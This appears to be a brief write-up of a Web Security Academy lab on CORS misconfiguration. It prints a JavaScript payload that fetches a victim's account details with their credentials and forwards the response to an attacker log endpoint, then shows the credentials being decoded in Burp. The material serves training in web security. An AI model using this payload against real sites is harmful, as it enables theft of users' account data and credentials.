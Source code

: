 1. The following script is delivered to the victim:

```
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	   location='/log?key='+this.responseText;
	};
</script>
```

2. After supposedly executing the script on victims machine his credentials get logged:   
	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)
3. Decoding victim's credentials via Burp Decoder:   
	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
